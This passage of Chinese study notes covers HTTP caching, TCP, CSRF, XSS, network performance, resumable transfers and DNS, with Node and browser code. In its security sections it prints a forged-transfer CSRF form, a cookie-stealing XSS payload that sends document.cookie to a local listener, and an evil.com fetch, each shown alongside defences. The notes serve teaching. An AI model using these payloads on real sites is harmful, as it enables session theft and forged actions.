  'Last-Modified': stat.mtime.toUTCString()
};

if (req.headers['if-none-match'] === etag) {
  res.writeHead(304, headers);            // 无响应体
  return res.end();
}
res.writeHead(200, { 'Content-Type': '...', ...headers });
res.end(fs.readFileSync(file));
```

现象：


304无响应体：

If-None-Match请求头携带Etag

If-Modified-Since请求头携带Last-Modified


#### 禁用缓存

```js
res.writeHead(200, { 'Cache-Control': 'no-store' });
```


## TCP协议

TCP 负责"送到" → 握手挥手管理"通道" → HTTP 负责"读懂"


### TCP 是什么

TCP 是字节流协议，它只保证数据按顺序到达，不保证消息边界


### 分段发送 —— "字节流"的含义

TCP 眼里没有"你的一条消息"，只有一条连续的字节流。它给每一个字节编号，然后按网络能承受的大小切成段发出去。


- `seq` = 这一段的第一个字节在整条流里的编号（不是"第几个包"）
- 为什么要切段？底层链路有大小限制（MTU，以太网通常 1500 字节），超了会被丢弃或分片

这带来一个前端要知道的后果：TCP 有"粘包/拆包"。  `write` 三次，对方可能一次 `data` 事件全收到，也可能分五次收到。所以上层必须自己定义消息边界——这正是 HTTP 需要 `Content-Length` 或 `\r\n\r\n` 分隔符的原因。


### 可靠传输 —— ACK 确认机制

网络本身是不可靠的：会丢包、会乱序、会重复。TCP 靠一条规则解决：接收方必须确认。


三个字段的准确含义（面试高频）：

| 字段                  | 含义                                                         |
| --------------------- | ------------------------------------------------------------ |
| `seq`                 | 我这次发的数据，第一个字节的编号                             |
| `ACK`（大写，标志位） | 这是一个"确认报文"，值为 1 时 `ack` 字段才有效               |
| `ack`（小写，编号）   | 我期望你下次发的第一个字节编号 = 我已完整收到 `ack-1` 之前的所有字节 |

- 丢包 → 超时重传：发送方启动定时器，超时没收到 ACK 就重发
- 乱序 → 按 seq 重排：接收方用编号把段排回正确顺序
- 重复 → 按 seq 去重


### 连接的本质

连接不是一根物理线，是通信双方各自在内存里开辟的一块空间。里面存着：收发缓冲区、当前 `seq`、期望的 `ack`、窗口大小、连接状态……


由此推出两个重要结论：

1. 一条连接由 四元组唯一标识：`源IP + 源端口 + 目标IP + 目标端口`。所以一台服务器能同时服务成千上万个客户端。
2. 连接是有成本的（占内存），所以不能无限开——这就是浏览器对同域名并发请求数有限制（HTTP/1.1 通常 6 条）的原因。


### 三次握手

握手的目的不是"打招呼"，而是：双方确认彼此的收发能力都正常，并交换各自的初始序号 `seq`。


SYN（Synchronize，同步） 是 TCP 报文头中的一个控制位（标志位）,SYN=1 表示"这是一个连接请求/连接确认报文"，用于在握手阶段同步双方的初始序列号。

| 握手     | 客户端得知                                                 | 服务器得知                           |
| -------- | ---------------------------------------------------------- | ------------------------------------ |
| 1（C→S） | —                                                          | 对方**发**能力正常，我**收**能力正常 |
| 2（S→C） | 我**发**正常，我**收**正常，对方**发**正常，对方**收**正常 | —                                    |
| 3（C→S） | —                                                          | 我**发**正常，对方**收**正常         |

到第 2 次结束时，客户端已全部确认，但服务器还不知道"自己发的对方能收到"。所以第 3 次不可省。


三次握手的具体作用

| 步骤       | 报文                           | SYN 的作用                                        |
| :--------- | :----------------------------- | :------------------------------------------------ |
| 第一次握手 | `SYN=1, seq=x`                 | 客户端发起连接请求，告知服务器"我的初始序号是 x"  |
| 第二次握手 | `SYN=1, ACK=1, seq=y, ack=x+1` | 服务器同意连接，同时告知客户端"我的初始序号是 y"  |
| 第三次握手 | `ACK=1, seq=x+1, ack=y+1`      | **SYN=0**，普通确认报文，连接已建立，不再需要 SYN |

第一次握手 `seq=x`，第二次握手回复 `ack=x+1`（+1 就是为 SYN 消耗的那个序号）

- 正常数据传输时 SYN 始终为 0


### 四次挥手

```mermaid
sequenceDiagram
    participant C as 客户端 主动关闭方
    participant S as 服务器 被动关闭方
    Note over C,S: ESTABLISHED 数据传输中
    C->>S: 1. FIN=1, seq=u
    Note left of C: FIN-WAIT-1
    S->>C: 2. ACK=1, ack=u+1
    Note right of S: CLOSE-WAIT
    Note left of C: FIN-WAIT-2
    Note over C,S: 半关闭：C 不能再发，但 S 还能继续发数据
    S->>C: 3. FIN=1, ACK=1, seq=w
    Note right of S: LAST-ACK
    C->>S: 4. ACK=1, ack=w+1
    Note left of C: TIME-WAIT 等待 2MSL
    Note over C,S: 双方 CLOSED
```

握手 3 次，挥手要 4 次


第一次挥手 — C → S：FIN=1, seq=u

客户端表示"我没有数据要发了"，向服务器发送 FIN 报文。

客户端进入 FIN-WAIT-1 状态，等待服务器确认。

注意：此时客户端只是"写关闭"，仍可接收服务器数据。


第二次挥手 — S → C：ACK=1, ack=u+1

服务器收到 FIN，回复 ACK，表示"我知道你不发了，但我可能还有数据要发"。

服务器进入 CLOSE-WAIT（半关闭状态）

客户端进入 FIN-WAIT-2，等待服务器的 FIN

此阶段是"半关闭"：C → S 方向已关闭，S → C 方向仍然畅通。


第三次挥手 — S → C：FIN=1, ACK=1, seq=w

服务器数据发送完毕，主动关闭连接，发送 FIN。

服务器进入 LAST-ACK，等待客户端的最后确认。


第四次挥手 — C → S：ACK=1, ack=w+1

客户端确认服务器的 FIN，连接进入收尾阶段。

客户端进入 TIME-WAIT，等待 2MSL 时间后才真正 CLOSED。


TIME-WAIT 为什么等 2MSL

MSL = 报文在网络中的最大生存时间。等 2MSL（一来一回）

保证最后那个 ACK 能送达。如果 ACK 丢了，服务器会重发 FIN，客户端还在 TIME-WAIT 就能补发 ACK；要是立刻 CLOSED，服务器就永远关不掉了。

假设最坏情况：第四次 ACK 在网络中耗尽了最长寿命才丢失。

```
客户端发出 ACK
      │
      │ 最多经过 1 MSL（ACK 在路上走了最长时间后丢失）
      ▼
服务器判定 ACK 丢失，重传 FIN
      │
      │ 最多经过 1 MSL（重传的 FIN 从服务器走回客户端）
      ▼
客户端收到重传的 FIN
```


字段含义

| 字段  | 全称                  | 含义                                                         |
| :---- | :-------------------- | :----------------------------------------------------------- |
| `FIN` | Finish                | 终止位，为 1 表示"我方数据已发完，请求关闭连接"              |
| `ACK` | Acknowledgment        | 确认位，为 1 表示 ack 字段有效                               |
| `seq` | Sequence Number       | 序列号，标识本报文段第一个字节的编号                         |
| `ack` | Acknowledgment Number | 确认号，表示"期望收到的下一个字节编号"，即已收到 ack-1 之前的所有数据 |
| `u`   | —                     | 客户端发送 FIN 时的序列号                                    |
| `w`   | —                     | 服务器发送 FIN 时的序列号（期间可能发送了若干数据）          |


### HTTP 与 TCP 的关系

```mermaid
graph TD
    A["HTTP：规定内容的格式<br/>请求行 / 消息头 / 状态码 / 消息体"] --> B["TCP：规定内容如何可靠传输<br/>seq / ack / 重传 / 连接管理"]
```

HTTP 是应用层的"内容格式约定"，它把自己的字节交给 TCP 去送。TCP 完全不知道也不关心自己送的是 HTTP。


## CSRF：跨站请求伪造

CSRF（Cross-site request forgery，跨站请求伪造）


### 同源策略弱点

同源策略（Same-Origin Policy）拦的是「读」，不拦「写/发」。

```mermaid
sequenceDiagram
  participant P as danger.com 页面
  participant B as 浏览器
  participant S as bank.com 服务器
  P->>B: fetch("bank.com/transfer")
  B->>S: ✅ 请求照发不误（还带上了 cookie）
  S->>S: ❗ 服务器已经把钱转走了
  S-->>B: 200 OK
  B--xP: ❌ CORS 拦截，JS 读不到响应
  Note over P,S: 钱已经没了，只是黑客"看不见"回执
```

这就是 CSRF 成立的根本原因：浏览器阻止的是跨域读取响应，而不是阻止请求到达服务器。

而且 ` <form> <script> <link>` 这些标签发出的跨域请求，连 CORS 检查都不走，直接放行。


### 是什么

攻击者诱导用户在已登录目标站点的情况下访问恶意页面，由恶意页面向目标站点发起请求，浏览器**自动携带**用户的 cookie，服务器误认为是用户本人的操作。

三个必要条件，缺一不可：

1. 用户在目标站已登录（有有效 cookie）
2. 目标站用 cookie 做身份校验（这是关键，不是 token）
3. 目标站的接口不需要额外的不可预测参数

边界：

- 黑客看不到响应，所以 CSRF 只能"搞破坏/改数据"，**不能窃取数据**
- 黑客不知道你的 cookie 内容，只是"借用"浏览器帮他带上


### 攻击流程

```mermaid
sequenceDiagram
  autonumber
  participant U as 浏览器
  participant B as bank.com
  participant D as danger.com
  U->>B: 1. 登录
  B-->>U: 2. Set-Cookie: token=xxx
  Note over U: 3. cookie 存在浏览器，域=bank.com
  U->>D: 4. 访问危险站点
  D-->>U: 5. 返回页面，内含 img src="bank.com/transfer?to=11111&money=100000"
  U->>B: 6. 浏览器解析 img，自动发请求 + 自动带 bank.com 的 cookie
  B-->>U: 7. ok（钱已转走）
```

第 6 步没有任何 JS 参与，一个 `` 标签就够了。浏览器带 cookie 的规则是 "看目标域名"，不看"是谁发起的"。


### 攻击方式

```html
<!-- ① GET：img / script / link，无声无息 -->


<!-- ② POST：隐藏表单自动提交（form 不受同源策略限制！） -->
<form action="http://bank.com/transfer" method="POST" target="隐藏iframe">
  <input type="hidden" name="money" value="500">
</form>
<script>document.forms[0].submit()</script>

<!-- ③ fetch/xhr：请求能发出，响应读不到（对"只写不读"的接口照样有效） -->
<script>fetch('http://bank.com/transfer?money=1', { credentials: 'include' })</script>
```


### CSRF四种防御


#### 1、不使用 cookie 

原理：把凭证从 cookie 换成 `localStorage` + 手动加 `Authorization` 头。

浏览器只自动带 cookie，不会自动带自定义请求头，黑客的页面读不到你 localStorage（跨域隔离），攻击就从根上不成立。

把服务器给的token在前端用localStorage 存储  →  `Authorization: Bearer <token>`  

```js
// 前端：凭证由 JS 主动附加，黑客页面模仿不了
fetch('/transfer', { headers: { Authorization: 'Bearer ' + localStorage.token } });
```

服务端手动读头：

```js
// Node http 服务端
const token = (req.headers.authorization || '').replace('Bearer ', '');
```


#### 2、SameSite

原理：给 cookie 打标记，告诉浏览器"跨站时别带我"。

```js
// Node http 模块下发 cookie
res.setHeader('Set-Cookie', 'token=abc; Path=/; HttpOnly; SameSite=Lax');
```

| 值       | 行为                                         | 说明                                          |
| -------- | -------------------------------------------- | --------------------------------------------- |
| `Strict` | 跨站一律不带                                 | 从别的站点点链接跳过来都是未登录态，体验差    |
| `Lax`    | 只有顶级导航的 GET（点链接、地址栏跳转）才带 | 现代浏览器默认值，挡住了 img/form POST/iframe |
| `None`   | 永远带（必须配 `Secure`）                    | 回到"裸奔"状态                                |

SameSite=Lax 的"顶级导航 GET"

顶级导航：浏览器地址栏的 URL 发生改变的跳转。

| 触发方式                              | 地址栏变化         | Lax 带不带 cookie |
| :------------------------------------ | :----------------- | :---------------- |
| 点 `<a href="...">` 链接跳转          | ✅ 变               | ✅ 带              |
| 地址栏直接输入 URL                    | ✅ 变               | ✅ 带              |
| `<form method="GET">` 提交跳转        | ✅ 变               | ✅ 带              |
| `` 加载图片 | ❌ 不变             | ❌ 不带            |
| `<iframe src="...">` 内嵌页面         | ❌ 不变（子框架）   | ❌ 不带            |
| `<form method="POST">` 提交           | ❌ 不变（被拦截前） | ❌ 不带            |
| `fetch / XMLHttpRequest` 发请求       | ❌ 不变             | ❌ 不带            |
| `<script src="...">` 加载脚本         | ❌ 不变             | ❌ 不带            |


#### 3、CSRF Token（最通用的方案）

原理：服务端生成一个随机数，放进页面 HTML（不是 cookie）。提交时必须带上它。

黑客的页面因为同源策略读不到银行页面的 HTML，所以猜不出这个随机数。

```mermaid
graph LR
  A["服务端生成随机 token<br/>存 session"] --> B["渲染进页面<br/>hidden input"]
  B --> C["提交时带上"]
  C --> D{"和 session 里的比对"}
  D -->|一致| E["✅ 放行"]
  D -->|缺失/不符| F["❌ 403<br/>黑客永远走这条"]
```


## XSS：跨站脚本攻击


### 是什么

攻击者把恶意脚本混在用户输入里提交给服务器，服务器原样输出到页面上，浏览器**分不清哪些是数据、哪些是代码**，于是把恶意脚本当作页面自身的脚本执行了。

> 数据被当成了代码。（和 SQL 注入是同一个病根）


### 攻击流程

```mermaid
sequenceDiagram
  autonumber
  participant H as 攻击者
  participant S as bank.com 服务器
  participant DB as 数据库
  participant V as 正常用户
  H->>S: 提交留言 "<script>...</script>"
  S->>DB: 原样存入
  V->>S: 正常访问页面
  S->>DB: 取数据
  DB-->>S: "<script>...</script>"
  S-->>V: 拼进 HTML 返回
  Note over V: 浏览器解析到 script 标签 → 执行！<br/>cookie 被发往黑客服务器
```

在银行页的留言板里提交：

```html
<script>new Image().src='http://127.0.0.1:5001/steal?c='+document.cookie</script>
```

其他用户打开评论页面时，浏览器会把这段 `<script>` 当成页面自带代码执行，用户的 cookie（如果没设置 `HttpOnly`）就被偷偷发到了攻击者服务器。

到这一步黑客已经可以直接冒用户，开不开 SameSite、CSRF Token 都毫无意义。


### XSS 的防御

编码（Escape）—— 首选，也是根治方案

把有 HTML 语义的字符转成实体，浏览器就只会把它当文字画出来，不会当标签解析。

```js
// 安全后端代码：输出前做 HTML 实体编码
function escapeHtml(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;');
}
```

编码后效果

```html
原始输入：<script>fetch('https://evil.com')</script>
编码输出：&lt;script&gt;fetch('https://evil.com')&lt;/script&gt;
```

```mermaid
sequenceDiagram
    participant A as 攻击者
    participant S as 服务器/数据库
    participant U as 受害者浏览器

    A->>S: 提交评论(含script标签)
    S->>S: 存储原始内容(不变)
    U->>S: 访问评论页面 GET /comments
    S->>S: 输出前调用 escapeHtml 编码
    S->>U: 返回HTML(script标签已转义为实体字符)
    Note over U: 浏览器把内容当成纯文本渲染,页面上显示一串文字,不执行
    Note over A: 攻击失败,无法拿到cookie
```


过滤（白名单）—— 富文本场景的无奈之选

如果业务必须允许用户发 HTML（富文本编辑器），只能解析 DOM 后按白名单保留标签和属性（如 `DOMPurify`）。
必须是白名单——黑名单永远防不住 ``、`<svg onload=...>`、`javascript:` 伪协议这类变体。


## 网络性能优化

```mermaid
graph TD
  A[一个请求的耗时] --> B["① 传的字节更少"]
  A --> C["② 传的次数更少"]
  A --> D["③ 传得更近/更并行"]
  A --> E["④ 传的时机更早/更晚"]
  B --> B1["压缩混淆打包体积<br/>多目标打包（按浏览器分版本）<br/>gzip/brotli 传输压缩"]
  C --> C1["缓存（协商缓存 + hash 置换）<br/>雪碧图（合并图片）"]
  D --> D1["CDN（就近 + 跨站点共享缓存）<br/>HTTP/2 多路复用、头部压缩<br/>多静态资源域（HTTP/1.1 下突破并发限制）"]
  E --> E1["defer / async（不阻塞解析）<br/>preload（本页要用，提前下）<br/>prefetch（下页可能用，空闲下）"]
```


| 概念                | 边界 / 易错点                                                |
| ------------------- | ------------------------------------------------------------ |
| 协商缓存 + hash     | HTML 本身不能长缓存（否则永远拿不到新版本）。做法：HTML 不缓存或短缓存，其余静态资源 `Cache-Control: max-age=31536000`，靠文件名 hash 变化来"换新" |
| HTTP/2 多路复用     | 一条 TCP 连接上并行跑多个流，队头阻塞在 HTTP 层消失（TCP 层仍在）。所以开了 HTTP/2 后，雪碧图和多域名反而是负优化 |
| defer vs async      | `defer`：并行下载，HTML 解析完后按顺序执行；`async`：并行下载，**下完立刻执行、顺序不定**。有依赖关系的脚本只能用 `defer` |
| preload vs prefetch | `preload` = 本页**一定**要用，高优先级立即下；`prefetch` = **下一页可能**用，空闲时才下 |
| 压缩                | 前提是"解压时间 < 省下的传输时间"，所以小文件（<1KB）压缩反而不划算 |


Node

```js
res.writeHead(200, {
  'Content-Encoding': 'gzip',                 // 传输压缩
  'Cache-Control': 'max-age=31536000',        // 强缓存（配合文件名 hash）
  'ETag': hash,                               // 协商缓存的凭据
});
```


## 断点续传


### 是什么

断点续传的本质不是网络技术，而是把不可分割的大人物变成可寻址的小人物，并让双方对已完成到哪了达成一致

```mermaid
flowchart TB
    A["大文件传输的共同难题<br/>一次传完 = 慢、易断、断了全废"] --> B["拆成小块 + 记住已完成的部分"]
    B --> C["下载方向<br/>HTTP 有官方标准：Range"]
    B --> D["上传方向<br/>HTTP 无标准：自定义分片协议"]
    C --> C1["Accept-Ranges / Range / 206 / Content-Range"]
    D --> D1["文件指纹 + 握手 + 分片上传 + 合并"]
```


### 为什么下载有标准、上传没有

|          | 下载                                | 上传                                                    |
| -------- | ----------------------------------- | ------------------------------------------------------- |
| 资源状态 | 服务器上文件已完整存在              | 服务器上文件还不存在                                    |
| 操作语义 | 只是「读它的第 m~n 字节」，语义唯一 | 「半个文件」怎么存？存本地盘/OSS/分布式？语义随业务而变 |
| 结果     | HTTP 能标准化 → `Range`（RFC 7233） | HTTP 无法标准化 → 各家自己定协议                        |

怎么读是确定的，怎么存是不确定的


### 下载侧：Range 断点续传


#### 概念定义与边界

| 概念                                                | 方向   | 定义                                      | 边界 / 易错点                                                |
| --------------------------------------------------- | ------ | ----------------------------------------- | ------------------------------------------------------------ |
| `Accept-Ranges: bytes`                              | 响应头 | 服务器声明：我支持按字节范围取数据        | 这是**能力声明**，不是承诺某次请求一定成功；`Accept-Ranges: none` 表示不支持 |
| `Range: bytes=0-5000`                               | 请求头 | 客户端要求只要这一段                      | 闭区间！含第 0 和第 5000 字节，共 **5001** 字节，不是 5000   |
| `206 Partial Content`                               | 状态码 | 「这是片段，不是整个文件」                | 必须与 200 区分，否则**代理/浏览器缓存会把片段当整文件缓存**，这就是它单独存在的理由 |
| `Content-Range: bytes 0-5000/1234567`               | 响应头 | 本片段位置 / 文件总长                     | 有了它，客户端不发 HEAD 也能知道总长，并能校验拼接位置       |
| `Content-Length`                                    | 响应头 | 在 206 里是**本次片段长度**，不是文件总长 | 常见误解点                                                   |
| `416 Range Not Satisfiable`                         | 状态码 | 要的范围越界了                            | 需回 `Content-Range: bytes */总长` 告诉对方真实长度          |
| `If-Range: <ETag>`                                  | 请求头 | 「文件没变才给我片段，变了就给整个」      | 续传正确性的关键：文件中途被改，旧片+新片拼出来是坏文件      |
| `Content-Disposition: attachment; filename="x.jpg"` | 响应头 | 让浏览器下载而非内联打开，并指定文件名    | 与续传无关，但决定下载体验                                   |

Range 的三种写法（只需记这三种）：

| 写法          | 含义                                |
| ------------- | ----------------------------------- |
| `bytes=0-999` | 第 0 到第 999 字节（共 1000 字节）  |
| `bytes=1000-` | 从第 1000 字节到结尾                |
| `bytes=-500`  | 最后 500 字节（坑：不是「前 500」） |


#### JS断点续传

```mermaid
flowchart LR
    subgraph P1["普通 &lt;a download&gt; 下载"]
        A1[浏览器自己发请求] --> A2[断了能不能续<br/>由浏览器决定，JS 管不着]
    end
    subgraph P2["JS 自己控制的下载"]
        B1[fetch 带 Range 逐段拉] --> B2[自己在内存/IndexedDB 攒着] --> B3[Blob 拼接后触发保存]
    end
```

代价：片段全在内存里，几个 G 的文件会爆。生产上用 IndexedDB 或 File System Access API 边下边落盘。


#### 完整流程

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as 服务器
    C->>S: HEAD /download/sample.bin
    S->>C: 200 + Accept-Ranges: bytes + Content-Length: 5500000 + ETag
    C->>S: GET + Range: bytes=0-524287
    S->>C: 206 + Content-Range: bytes 0-524287/5500000
    Note over C: 断网 / 用户暂停，已收 524288 字节
    C->>S: GET + Range: bytes=524288-1048575 + If-Range: ETag
    S->>C: 206 + Content-Range: bytes 524288-1048575/5500000
    Note over C: 全部片段按顺序拼成 Blob → 保存
```

置的 `HEAD` 请求(200)，本质上是在探测服务器能力和文件元信息，直接决定了后续能不能做断点续传。服务器后面返回的`Accept-Ranges: bytes` 这个响应头，就是服务器在告诉客户端："我支持按字节区间(Range)返回内容"。所以客户端必须先确认 `Accept-Ranges: bytes` 存在，才能放心地在后续请求里带上 `Range`，并且按 206 的语义去处理响应（否则如果拿到的是 200，就要换一套"全量下载"的处理逻辑）。

最后"保存"指的是：把当前收到的这个分片数据写入本地的临时存储（可能是内存 Blob、IndexedDB、或磁盘上的临时文件），同时更新"进度记录"（已下载哪些区间）不代表下载已经完成。


#### 语法

前端

```js
// 1) 先探总长：HEAD 只要响应头，不传 body，代价极小
const h = await fetch(url, { method: 'HEAD' });
const total = Number(h.headers.get('Content-Length'));

// 2) 逐段取：Range 是闭区间，所以 end = start + size - 1
const res = await fetch(url, { headers: { Range: `bytes=${start}-${end}` } });
res.status;                          // 206 表示服务器认账了
res.headers.get('Content-Range');    // "bytes 0-524287/5500000"
parts.push(await res.blob());

// 3) 拼接并保存：Blob 数组按顺序拼接
const objUrl = URL.createObjectURL(new Blob(parts));
Object.assign(document.createElement('a'), { href: objUrl, download: name }).click();
```

Node.js（http 模块）——核心只有两句：

```js
const range = req.headers.range;                    // "bytes=0-524287"

res.writeHead(206, {
  'Accept-Ranges': 'bytes',
  'Content-Range': `bytes ${start}-${end}/${total}`,
  'Content-Length': end - start + 1,
});

// createReadStream 的 start/end 也是闭区间，与 Range 语义天然一一对应
fs.createReadStream(file, { start, end }).pipe(res);
```

运行现象：这行 `createReadStream(file, {start, end})` 让 Node **只从磁盘读这一段**，内存占用与文件大小无关。这是流式传输的意义所在。


开始的200请求，服务端返回`Accept-Ranges: bytes`这个响应头，说明其支持按字节区间(Range)返回内容，并在200状态码下的`Content-Length`响应头中返回文件总长


后面的请求都是206的Range请求

206请求中`Content-Length`表示的是本次片段的长度

`Content-Range`响应头表示本片段位置相对于总长

请求头中的Range表示要哪一段


输出实测：

```
HEAD → 总长 5500000 字节 | Accept-Ranges: bytes
Range: bytes=0-524287 → 206 | bytes 0-524287/5500000
Range: bytes=524288-1048575 → 206 | bytes 524288-1048575/5500000
。。。
Range: bytes=5242880-5499999 → 206 | bytes 5242880-5499999/5500000
全部片段拼接完成，已触发保存
```


### 上传侧：分片上传


#### 为什么要切片

| 问题                                                   | 整体上传     | 分片上传       |
| ------------------------------------------------------ | ------------ | -------------- |
| 网关/服务器体积限制（如 nginx `client_max_body_size`） | 直接 413     | 每个请求都很小 |
| 传到 99% 断网                                          | 从 0 重来    | 只补丢的那几片 |
| 单连接跑不满带宽                                       | 慢           | 多片并发       |
| 进度 / 暂停                                            | 粗糙         | 天然以片为单位 |
| 服务器已有同款文件                                     | 还得再传一遍 | **秒传**       |


#### 三个核心概念

文件指纹（fileId / chunkId）

定义：对内容做哈希，得到内容的唯一标识。

为什么这样设计：这是 内容寻址（content-addressed）。同样的内容 → 同样的 id，于是自动获得三个能力：

- 秒传：id 已存在 → 0 字节上传
- 去重：一万个用户传同一部电影，只存一份
- 幂等：同一片重复上传是覆盖，不是追加，重试永远安全

边界（工程现实）：几 G 文件全量哈希要读完整个文件，很慢且卡 UI。生产做法：

- Web Worker 里算，别卡主线程
- 抽样哈希：文件大小 + 首尾 + 中间若干块 → 近似指纹（牺牲严格性换速度）
- 小文件折中：每片哈希 → 把所有片哈希拼起来再哈希 = 文件指纹（顺带白嫖了片级指纹）


握手（handshake）—— 整个协议的灵魂

定义：正式传数据前，先把「我是谁、我有几片」告诉服务器，问「你还缺哪几片」。

为什么必须有：服务端是「已传到哪」的唯一真相源（single source of truth）。客户端的本地记录会因为换设备、清缓存、换浏览器而失效；而服务端磁盘上那堆 .part 文件是事实。

所以「续传」的实现方式极其朴素：暂停后再点开始 = 重新握手一次，服务器会重新告诉你缺什么。


合并（merge）

为什么必须携带顺序：HTTP 请求是并发的、乱序到达的。服务器不能靠「到达先后」拼接。

chunkIds 数组的顺序本身就是文件内容的顺序，所以要依靠chunkIds 数组进行拼接


#### 完整流程

"先握手确认、再并发传输、支持断点续传

```mermaid
sequenceDiagram
    participant C as 浏览器
    participant S as 服务器
    Note over C: file.slice() 切片
    Note over C: 算出每片指纹 + 文件指纹
    C->>S: POST /api/upload/handshake {fileId, ext, chunkIds}
    alt 服务器已有该文件
        S->>C: data: "/upload/xxx.mp4"（秒传，结束）
    else 需要上传
        S->>C: data: ["md5-1","md5-2","md5-5"]（还缺这些）
        par 并发 3 路
            C->>S: POST /api/upload?fileId&chunkId + 二进制
            S->>C: data: 剩余缺失列表
        end
        Note over C: 用户暂停 → 再开始 → 重新握手
        C->>S: handshake（服务端只回真正还缺的）
        C->>S: 补齐最后一片
        Note over S: 缺失列表为空 → 按 chunkIds 顺序合并 → 删分片目录
        S->>C: data: "/upload/xxx.mp4"
    end
```

1、客户端预处理

- `file.slice()` 切片：浏览器把大文件按固定大小切成若干小块（chunk）。
- 算指纹：对每个分片计算 hash（如 md5），同时算出整个文件的指纹（fileId，通常也是基于内容的 hash，而不是文件名）。这样做的目的是保证"内容相同的文件/分片会得到相同的标识"，为后面秒传和去重打基础。


2、握手阶段（handshake）

客户端把 `fileId`、文件扩展名 `ext`、以及所有分片的 `chunkIds` 一起发给服务器，问一句："这个文件你有没有？还差哪些分片？"

服务器有两种回应：

- 已有完整文件（秒传）：说明之前有人已经上传过完全相同内容的文件，服务器直接返回可访问路径 `/upload/xxx.mp4`，本次上传直接结束，不用再传一个字节 —— 这就是"秒传"。
- 文件不完整/不存在：服务器对比自己已保存的分片记录，返回一个**缺失分片列表**（如 `["md5-1","md5-2","md5-5"]`），告诉客户端只需要传这几片，已经传过的不用重传。


3、并发上传分片

客户端拿到缺失列表后，开 3 路并发（限制并发数是为了不把浏览器/网络打满），逐个把缺失的分片以二进制形式 POST 给服务器（带上 `fileId` 和 `chunkId` 做标识）。

服务器每收到一片，就返回当前还缺的分片列表，客户端据此知道进度，直至全部传完。


4、断点续传

图中特意标注了"用户暂停→再开始→重新握手"：

- 上传可以随时暂停。
- 重新开始时不需要从头传，而是重新走一次握手，服务器会根据已落盘的分片，只告诉客户端真正还缺的那些（比如只缺最后一片），客户端补齐即可。


 5、合并阶段

当服务器发现缺失列表为空（所有分片都收到了）：

1. 按 `chunkIds` 的顺序把各个分片文件合并成一个完整文件（顺序很重要，否则文件内容会错乱）。
2. 删除临时的分片目录，做清理。
3. 返回最终文件的访问路径 `/upload/xxx.mp4` 给客户端，上传流程结束。


#### 语法

前端切片与指纹：

```js
// Blob.slice(start, end) 是【半开区间】[start, end)，与 Range 的闭区间正好相反 —— 这是最常见的 off-by-one 来源
for (let s = 0; s < file.size; s += SIZE) chunks.push(file.slice(s, s + SIZE));

// 浏览器原生哈希（只支持 SHA 系列，不支持 MD5；且要求 https 或 localhost）
const digest = await crypto.subtle.digest('SHA-256', await blob.arrayBuffer());
const hex = [...new Uint8Array(digest)].map(b => b.toString(16).padStart(2, '0')).join('');

// 上传一片：Blob 可以直接当 fetch 的 body，浏览器会自动流式发送
await fetch(`/api/upload?fileId=${fileId}&chunkId=${id}`, { method: 'POST', body: blob });
```

Node.js接收

```js
// req 本身就是【可读流】，直接管到文件，内存里不留整片数据
await pipeline(req, fs.createWriteStream(tmp));

// 先写 .tmp 再 rename：rename 在同盘是原子操作，
// 保证断线留下的半截文件不会被下次握手误判成"这片已完成"
await fsp.rename(tmp, `${chunkId}.part`);

// 合并：{ end: false } 表示这一片写完别关闭输出流，留给下一片继续追加
for (const id of meta.chunkIds) {
  await pipeline(fs.createReadStream(`${id}.part`), out, { end: false });
}
```


实际案例现象

第一次上传，分片：文件总大小/每次上传大小，上传完成后，服务端返回访问链接


DevTools中network中，显示有六个请求发出：


## 域名和DNS


### 域名

域名是 IP 地址的助记别名。网络传输只认 IP，域名纯粹是给人用的。

域名的层级是从右往左递增的，中间的 `.` 是分隔符。

```
        www  .  baidu  .  com  .
         │        │       │     │
       三级     二级    顶级   根（通常省略不写）

其它页面：
       https://pan.baidu.com/  百度网盘
       https://map.baidu.com/  百度地图
```

| 级别         | 例子                             | 谁管                       |
| ------------ | -------------------------------- | -------------------------- |
| 根域名       | `.`（省略）                      | 全球 13 组根服务器         |
| 顶级域名 TLD | `.com` `.cn` `.org` `.net`       | ICANN 授权的注册局         |
| 二级域名     | `baidu`.com                      | 花钱买的就是这一级         |
| 三级及以下   | `www` / `mail` / `api`.baidu.com | 买了二级后自己随便加，免费 |


假设没有层级，全世界只有一台"总服务器"，它保存所有域名的记录。那这台机器要承受两样东西：

- 存储：全球有几亿个注册域名，每个域名下还有 `www`、`mail`、`api` 等无数条子记录，全部数据都堆在它身上；
- 查询量：全世界每一台电脑每一次上网访问网站，都要向它发问。这还不算完——它还得从几亿条记录里找出答案。

任何一台机器都扛不住这两样东西。

根服务器里只有顶级域的信息，即"`.com` 由哪些服务器管、`.cn` 由哪些服务器管"这类条目。查 `www.baidu.com` 时，根服务器根本不需要知道答案，它只返回一个引荐：".com 的域名服务器列表"。

`.com` 服务器同样只管一件事：`baidu.com` 这个二级域名归哪几台服务器管，返回引荐。

最后，`baidu.com` 自己的权威服务器才真正存着 `www.baidu.com → IP` 这条记录，并给出答案。


### DNS

DNS（Domain Name System）= 一个全球分布式的、层级化的域名→IP 映射数据库。通常叫它域名系统

作用：把域名翻译成 IP ，这个过程叫域名解析。


流程


的DNS服务器一共有三种，外加一种局部使用的本地DNS服务器，一共四种


完整流程

```mermaid
sequenceDiagram
    participant B as 浏览器
    participant OS as 操作系统
    participant L as 本地域名服务器
    participant R as 根服务器
    participant T as 顶级(.com)
    participant A as 权威(baidu.com)

	rect rgb(0,0,0)
    Note over B,OS: ① 查缓存（命中就直接结束）
    B->>B: 浏览器 DNS 缓存
    B->>OS: 系统 DNS 缓存 + hosts 文件
	end

    rect rgb(0,0,0)
    Note over OS,L: ② 递归查询：我只要答案，过程你负责
    OS->>L: www.baidu.com 的 IP？
    end

    rect rgb(0,0,0)
    Note over L,A: ③ 迭代查询：一层层问下去
    L->>R: www.baidu.com？
    R-->>L: 不知道，问 .com 服务器
    L->>T: www.baidu.com？
    T-->>L: 不知道，问 baidu.com 的权威服务器
    L->>A: www.baidu.com？
    A-->>L: 180.101.49.42
    end

    L-->>OS: 180.101.49.42（并写入缓存）
    OS-->>B: 180.101.49.42
```


#### Node.js语法

```js
// 域名 -> IP：三种查询方式
// 运行：node 1-dns.mjs
import dns from 'node:dns/promises';

const domain = 'www.baidu.com';

// lookup：走操作系统解析器，会读 hosts 文件、走系统 DNS 缓存（浏览器/curl 实际走的就是这条路）
console.log('lookup   ->', await dns.lookup(domain, { all: true }));

